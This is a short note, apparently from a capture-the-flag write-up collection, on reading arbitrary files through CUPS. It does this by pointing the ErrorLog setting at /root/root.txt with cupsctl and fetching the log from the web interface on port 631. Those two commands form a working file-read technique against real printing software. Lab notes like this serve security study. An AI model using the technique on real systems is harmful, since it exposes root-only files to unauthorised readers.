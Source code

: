 ### LFI
An LFI is present if you have access to the system, you need to change the ErrorLog path for the file that you want to read:
```bash
cupsctl ErrorLog="/root/root.txt"
```
Then from the web server we need to go to the following path:
```bash
http://localhost:631/admin/log/error_log?
```
Examples:
[[Antique#^4440dd]]